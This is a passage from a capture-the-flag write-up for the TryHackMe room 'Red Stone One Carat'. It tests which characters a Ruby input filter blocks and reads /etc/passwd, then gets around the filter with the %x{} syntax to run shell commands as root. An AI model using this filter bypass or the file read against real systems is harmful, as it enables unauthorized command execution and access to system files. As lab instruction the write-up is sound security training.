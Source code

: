 **We can try to read file:**
```ruby
$ File.read('/etc/passwd') 
Forbidden character
```

Umm... Our input is getting filtered?

**Let's test which characters are filtered:**
```ruby
Forbidden character
$ (   
Forbidden character
$ )
Forbidden character
$ [
Forbidden character
$ ]
Forbidden character
$ .
Forbidden character
$ '
Forbidden character
$ "
Forbidden character
```

- Forbidden character: `()[].'"`

Now, we need to bypass that to get OS command execution.

**According to this [StackOverflow](https://stackoverflow.com/questions/2232/how-to-call-shell-commands-from-ruby) post, we can execute command via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Red-Stone-One-Carat/images/Pasted%20image%2020230112115835.png)

**Let's do that:**
```shell
$ %x{id}
uid=0(root) gid=0(root) groups=0(root)
```

Nice! We can execute any commands!

```shell
$ %x{ls -lah /root}
total 32K
drwx------  4 root    root    4.0K May 17  2021 .
drwxr-xr-x 23 root    root    4.0K May 17  2021 ..
-rw-r--r--  1 root    root    3.1K May 12  2021 .bashrc
drwx------  2 root    root    4.0K May 12  2021 .cache
drwx------  3 root    root    4.0K May 12  2021 .gnupg
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rw-r--r--  1 vagrant vagrant   37 May 17  2021 root.txt
-rwxr-xr--  1 vagrant vagrant  612 May 17  2021 server.rb
```
